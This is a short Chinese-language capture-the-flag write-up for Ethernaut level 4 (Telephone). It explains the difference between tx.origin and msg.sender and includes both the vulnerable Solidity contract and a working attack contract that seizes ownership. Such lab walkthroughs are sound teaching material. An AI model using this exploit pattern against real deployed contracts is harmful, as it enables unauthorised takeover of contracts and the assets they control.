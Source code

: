 ```yaml
---
title: ethernaut NO.4
tags: TeXt
---
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

```

**主要考察对tx.orgin和msg.sender的区别的理解**

tx.orgin表示交易发起的外部账户地址。更具体地说，它表示的是最初创建整个交易序列的外部账户，而不是调用当前函数的账户；

msg.sender表示调用合约的账户；

**例如：Alice调用A合约执行B合约；对于B合约来说，msg.sender=A合约，而tx.orgin为Alice**

```solidity
contract Hack{
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

这个为攻击合约，首先传入原合约的地址，然后利用Hack合约调用Telephone合约中的changeowner函数并将msg.sender（也就是我们）的地址作为参数传入changeowner中，对于原合约，我们就是tx.origin，而msg.sender为Hack函数



